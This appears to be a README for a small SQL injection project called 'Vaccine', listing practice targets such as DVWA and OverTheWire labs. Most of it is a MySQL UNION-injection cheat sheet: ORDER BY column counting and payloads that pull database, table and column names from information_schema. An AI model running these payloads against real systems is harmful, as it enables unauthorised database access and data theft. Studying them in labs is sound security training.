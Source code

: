 # Vaccine

# Usage

```
export TOKEN=YOUR_COOKIE
```

# Websites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## UNION

### MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```
- Get database name
```
' UNION SELECT DATABASE(), DATABASE()
```
- Get table_names
```
' UNION SELECT table_name, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_name = 'users'#
```
